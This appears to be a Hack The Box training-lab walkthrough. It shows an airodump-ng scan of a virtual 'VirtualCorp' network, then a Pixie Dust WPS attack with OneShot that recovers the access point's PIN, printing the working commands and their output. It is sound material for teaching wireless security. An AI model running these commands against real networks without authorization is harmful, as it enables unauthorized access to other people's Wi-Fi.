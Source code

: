 Students will use `airodump-ng` to scan the environment for available wireless networks and note the MAC address of the `VirtualCorp` network. Note the MAC address changes upon spawn/reset.

Code: shell

```shell
airodump-ng wlan0mon --wps
```

```
root@WiFiIntro:/home/wifi# airodump-ng wlan0mon --wps

 CH 10 ][ Elapsed: 0 s ][ 2024-11-05 06:56 

 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH WPS    ESSID

 4A:5C:B4:68:0A:9F  -28        3        0    0   1   54   WPA2 CCMP   PSK  2.0    VirtualCorp                                                 
 72:40:6E:74:2F:3B  -28        3        0    0   1   54   WPA2 CCMP   PSK  2.0    HackTheBox-Corp
```

Subsequently, students will perform a Pixie Dust Attack using `OneShot` located in `/opt/OneShot` using the MAC address of the `VirtualCorp` wireless network to attain the WPS pin:

Code: shell

```shell
python3 /opt/OneShot/oneshot.py -b 4A:5C:B4:68:0A:9F -i wlan0mon -K
```

```
root@WiFiIntro:/home/wifi# python3 /opt/OneShot/oneshot.py -b 4A:5C:B4:68:0A:9F -i wlan0mon -K

[*] Running wpa_supplicant…
[*] Running wpa_supplicant…
[*] Trying PIN '68184636'…
[*] Scanning…
[*] Authenticating…
[+] Authenticated
[*] Associating with AP…
[+] Associated with 4A:5C:B4:68:0A:9F (ESSID: VirtualCorp)

<SNIP>

[-] Error: PIN was wrong
[*] Running Pixiewps…

 Pixiewps 1.4

 [?] Mode:     1 (RT/MT/CL)
 [*] Seed N1:  0x56690eb0
 [*] Seed ES1: 0x00000000
 [*] Seed ES2: 0x00000000
 [*] PSK1:     9efb939896f54cb4257c9b1061d18f7f
 [*] PSK2:     dbf9e67d42259911303de2fd43d4bd87
 [*] ES1:      00000000000000000000000000000000
 [*] ES2:      00000000000000000000000000000000
 [+] WPS pin:  {hidden}

 [*] Time taken: 0 s 39 ms

<SNIP>
```
